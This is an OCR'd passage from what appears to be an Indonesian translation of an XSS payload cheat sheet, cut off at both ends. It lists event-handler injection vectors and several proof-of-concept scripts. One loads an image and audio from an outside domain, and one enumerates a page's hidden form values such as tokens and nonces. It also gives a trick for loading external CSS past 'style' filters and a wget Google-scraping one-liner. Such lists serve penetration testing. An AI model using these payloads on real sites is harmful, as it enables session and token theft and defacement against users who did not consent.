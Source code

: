        <form onsubmit=alert(1)><input type=submit>
    
       <select onchange=alert(1)><option>1<option>2
    
       <menu id=x contextmenu=x onshow=alert(1)>right click me!
    
       <object onerror=alert(1)>

> Alternative PoC - Shake Your Body

Gunakan untuk mengguncang semua elemen halaman sebagai visualisasi kerentanan yang baik.

       setInterval(x=>{b=document.body.style,b.marginTop=(b.marginTop=='4px')?'-4px':'4px';},5)

> Alternative PoC - Brutality

Gunakan untuk menampilkan gambar karakter Sub-Zero Mortal Kombat bersama dengan "kebrutalan"

suara game.

       d=document,i=d.createElement('img');i.src='//brutelogic.com.br/brutality.jpg';
    
       d.body.insertBefore(i,d.body.firstChild);new(Audio)('//brutelogic.com.br/brutality.mp3').play();

> Alternative PoC - Alert Hidden Values

Gunakan untuk membuktikan bahwa semua nilai HTML tersembunyi seperti token dan nonces di halaman target dapat dicuri.

       f=document.forms;for(i=0;i<f.length;i++){e=f\[i\].elements;for(n in e){if(e\[n\].type=='hidden')
    
       {alert(e\[n\].name+': '+e\[n\].value)}}}

> Improved Likelihood of Mouse Events

Gunakan untuk membuat area yang lebih besar untuk memicu aktivitas mouse. Tambahkan yang berikut ini (sebagai atribut)

di dalam vektor XSS apa pun yang menggunakan acara mouse seperti onmouseover, onclick, dll.

       style=position:fixed;top:0;left:0;font-size:999px

> Alternative to Style Tag

Gunakan saat kata kunci "style" diblokir untuk inline dan nama tag. Berikan HOST dan FILE

untuk CSS atau hanya CSS saja dalam vektor kedua.

       <link rel=stylesheet href=//HOST/FILE>
    
       <link rel=stylesheet href=data:text/css,CSS>

> Simple Google Scraper

Gunakan untuk mengikis hasil Google untuk QUERY yang diberikan, yang harus disediakan di terminal

skrip di bawah ini. Ini adalah baris perintah dan "$" adalah terminal prompt.

       $ q="QUERY"; wget -U "Opera/4" "[https://google.com/search?num=100&q=](https://google.com/search?num=100&q= "https://google.com/search?num=100&q=")$q" -qO- | sed "s/+$q/ /g" | egrep -o ":.{12}:https?://\\S*\\??\\S*" | sed "s/.*:h/h/

> Simple XSS Guesser

Gunakan untuk menemukan kelemahan XSS dengan menggunakan parameter yang tidak jelas. Cukup sediakan TARGET, sebuah XSS
